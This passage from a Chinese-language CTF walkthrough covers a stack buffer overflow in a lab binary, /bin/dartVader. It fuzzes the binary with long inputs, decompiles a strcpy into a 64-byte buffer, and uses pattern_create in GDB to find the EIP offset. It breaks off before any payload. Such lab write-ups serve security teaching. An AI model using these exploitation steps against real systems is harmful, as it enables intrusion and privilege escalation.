 发现 `strcpy` 函数和源文件名 `game3.c`，这强烈暗示存在缓冲区溢出漏洞。

测试缓冲区溢出：

```bash
erso@deathStar1:~$ /bin/dartVader aaaaaaaaa
erso@deathStar1:~$ /bin/dartVader aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
erso@deathStar1:~$ /bin/dartVader aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Segmentation fault (core dumped)
```

输入大量 'a' 导致段错误，确认存在缓冲区溢出。

将 `/bin/dartVader` 文件传输到本地 Kali 进行分析：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ scp -P 10110 erso@192.168.205.210:/bin/dartVader .
# ... (传输成功) ...
```

使用 IDA Pro 反编译 `dartVader`：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char dest[64]; // [esp+10h] [ebp-40h] BYREF

  if ( argc == 1 )
    errx(1, "Voce tem um futuro aqui. Nao seja um Lammer, busque e aprenda realmente...\n");
  return (int)strcpy(dest, argv[1]);
}
```

`dest` 缓冲区大小为 64 字节。`strcpy` 将 `argv[1]` (命令行第一个参数) 复制到 `dest`，没有长度检查。

在 GDB 中确定 EIP 覆盖的精确偏移量：

1.  生成一个唯一的非重复字符串作为输入。
2.  在 GDB 中运行程序，使用该字符串作为参数。
3.  当程序崩溃时，查看 EIP 寄存器的值。
4.  使用 `pattern_offset.rb` (或类似工具) 找到该值在原始字符串中的偏移。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ gdb dartVader
(gdb) set disassembly-flavor intel
(gdb) run $(/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 80) 
# 或者手动输入 pattern_create 生成的字符串，如 Aa0Aa1...
Starting program: /mnt/hgfs/gx/dartVader Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
(gdb) info registers eip
eip            0x63413563          0x63413563
```
